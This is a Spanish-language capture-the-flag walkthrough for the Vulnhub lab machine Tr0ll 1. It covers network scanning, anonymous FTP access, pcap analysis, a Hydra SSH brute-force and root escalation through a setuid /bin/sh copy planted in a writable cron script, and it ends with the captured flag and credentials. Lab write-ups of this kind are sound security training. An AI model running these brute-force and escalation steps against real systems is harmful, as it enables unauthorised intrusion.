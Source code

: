<p align="center">
  <a href="https://github.com/DenverCoder1/readme-typing-svg"><img src="https://readme-typing-svg.herokuapp.com?size=50&color=F7F400&width=220&height=80&lines=TR0LL_1"></a>
</p>

<h1 align="center"></h1>

**[Descargar máquina]:**

Vulnhub: https://www.vulnhub.com/entry/tr0ll-1,100/

</br>

- *Paso 1:* Identificar la IP de la máquina host con NetDiscover. 
```
netdiscover -i wlan0 -r 192.168.1/24
```
![1](https://user-images.githubusercontent.com/75953873/176079905-f35a37e9-416f-45a8-8f7e-3c49899c7252.png)

IP host: `192.168.1.4`

- *Paso 2:* Escanear todos los puertos que estén abiertos con Nmap. 
```
nmap -p- --open -sC -n -vvv 192.168.1.4
```
![2](https://user-images.githubusercontent.com/75953873/176080128-62ec0641-3cfa-479f-8d07-737fc130d1aa.png)

Puertos abiertos: [21,22,80]

- *Paso 3:* Detección de servicios y sistema operativo. 
```
nmap -p 21,22,80 -A 192.168.1.4
```
![3](https://user-images.githubusercontent.com/75953873/176081118-60dbaddd-22c5-48c2-9232-a18565c084e1.png)

Servidor corriendo: **HTTP Apache**

Servicio FTP: permite el inicio se sesión anónimo.

O.S: **Linux**

URL: `http://192.168.1.4`

![4](https://user-images.githubusercontent.com/75953873/176081949-b1bb16cd-4a6f-4c5a-9abf-136aa5cc5c53.png)

- *Paso 4:* Loguearse al servicio FTP. 
```
ftp 192.168.1.4
```
Usuario: `anonymous`

Contraseña: `anonymous`

Copiar el archivo `lol.pcap` hacia el directorio local:
```
get lol.pcap
```
![5](https://user-images.githubusercontent.com/75953873/176082571-6e2485ce-3890-4e4e-a022-40aeebc2310c.png)

- *Paso 5* Examinar captura de paquetes con Wireshark. 
```
wireshark lol.pcap
```
![6](https://user-images.githubusercontent.com/75953873/176084226-03fe75a3-9b3a-459a-96e7-c70f8112f8cc.png)

Aplicar filtro: `(ip.addr eq 10.0.0.6 and ip.addr eq 10.0.0.12) and (tcp.port eq 20 and tcp.port eq 51884)`

Directorio secreto: `sup3rs3cr3tdirlol`

URL completa: `http://192.168.1.4/sup3rs3cr3tdirlol`

![7](https://user-images.githubusercontent.com/75953873/176085343-f3ea1169-da6f-4107-b70e-bf9e439c2010.png)

Descargar archivo: 
```
wget http://192.168.1.4/sup3rs3cr3tdirlol/roflmao
```

Explorar el archivo con Strings:
```
string roflmao
```
![8](https://user-images.githubusercontent.com/75953873/176085855-ffc26116-24d7-4c34-87d4-578fa54dddbb.png)

Directorio secreto: `0x0856BF`

URL completa: `http://192.168.1.4/0x0856BF`

![9](https://user-images.githubusercontent.com/75953873/176086028-06516837-d580-49de-8f15-c045b71909ff.png)

El directorio `good_luck` contiene un fichero txt con una lista de nombres para realizar un ataque de fuerza bruta y conectarse al servicio **SSH**. 

URL completa: `http://192.168.1.4/0x0856BF/good_luck/which_one_lol.txt`
```
wget http://192.168.1.4/0x0856BF/good_luck/which_one_lol.txt && cat which_one_lol.txt
```
![10](https://user-images.githubusercontent.com/75953873/176086596-77994340-98ef-4c9c-8231-5963d17a4c17.png)

- *Paso 6* Ataque de fuerza bruta al servicio SSH con Hydra. 
```
hydra -L which_one_lol.txt -P rockyou.txt 192.168.1.4 ssh
```
![11](https://user-images.githubusercontent.com/75953873/176089030-02ebf4c5-56d9-4a11-89a1-34ab99c0e119.png)

Usuario: `overflow`

Contraseña: `Pass.txt`

Iniciar sesión al servicio SSH:
```
ssh overflow@192.168.1.4
```

- *Paso 7* Filtrar todos los directorios y escalar privilegios root. 
```
find / -writable 2<dev/null
```
![12](https://user-images.githubusercontent.com/75953873/176089628-cc8a60fd-7cd4-4e17-b2bc-1979707d85af.png)

Directorio objetivo: `/lib/log`

Con el editor de Nano hay que remplazar la línea de `rm -r /tmp/` por las siguientes:
```python
#!/usr/bin/env python
import os
import sys
try:
        os.system('cp /bin/sh /tmp/sh ')
        os.system('chmod u+s /tmp/sh')
except:
        sys.exit()

```
![13](https://user-images.githubusercontent.com/75953873/176090801-543a7e6b-0386-466c-99f3-49bbf8daa1f0.png)

Finalmente ejecutamos `./sh` dentro del directorio `/tmp` y capturamos la flag del directorio `/root`.
```
cd /tmp
./sh
cd /root
cat proof.txt
```
![14](https://user-images.githubusercontent.com/75953873/176091178-9dad75b7-dfc4-484f-88ef-10ae3201ff8f.png)

**FLAG:** 702a8c18d29c6f3ca0d99ef5712bfbdc
